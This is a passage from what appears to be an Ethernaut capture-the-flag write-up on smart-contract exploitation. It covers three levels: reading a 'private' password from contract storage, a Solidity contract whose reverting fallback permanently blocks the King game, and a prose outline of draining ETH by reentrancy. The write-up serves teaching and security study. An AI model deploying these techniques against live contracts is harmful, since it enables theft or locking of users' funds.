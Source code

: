 ### 8. Vault

To solve this, we need to find the value of the *bytes32 private password;* variable. In Solidity, private variables refer to which other contracts are allowed to view/use them. "Private" does not refer to visibility to the contract to the people who use the contract, since EVM state is public.

This is the second variable defined, so we can retrieve the hex with *await web3.eth.getStorageAt(contract.address, 1)*

Then we can hex decode the result if we want, but we will be passing the hex value to the *unlock()* function. *await web3.utils.hexToAscii("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")*

Another way to find the password is to view the EVM state of the creation transaction on Etherscan.

<pic>

*await contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")*

### 9. King

In this level we have to become the King by contributing more ETH than was in the pool before. Then we have to stay the king by breaking the contract.

We can cause this line in the contract to fail *king.transfer(msg.value);* by calling this from our own smart contract and not specifying a payable fallback function.

```jsx
pragma solidity ^0.5.17;

contract Solution {
    constructor() public payable {
        // this address is the address of your level instance contract
        address payable contractAddr = 0xc1262E0eB785971B481B2Ec89f86fcB51E62f68f;
        address(contractAddr).call.value(msg.value)("");
    }
    
    function() external payable {
        revert("lmao sucks");
    }
}
```

If we write this on Remix and then deploy it with 1 ETH, it should make us king.

You can check by running *await contract._king()* in the console. It should show the address of our deployed contract.

### 10. Reentrancy

Reentrancy in Solidity is when a function can be interrupted in the middle of execution and then called again repeatedly by an external contract. This is what happened in the DAO hack.

We can create our own malicious smart contract that will reenter the original contract using the *withdraw()* function. We need to seed this contract with 1 ETH to pass the initial check. That's what the *ogContract.donate{ value: 1 ether}(address(this));* does. Then the original contract will run *withdraw()* and transfer funds to our attacking contract. It will trigger our *fallback()* function, which will call *withdraw()* again. This process repeats until we've drained the ETH from the original contract.
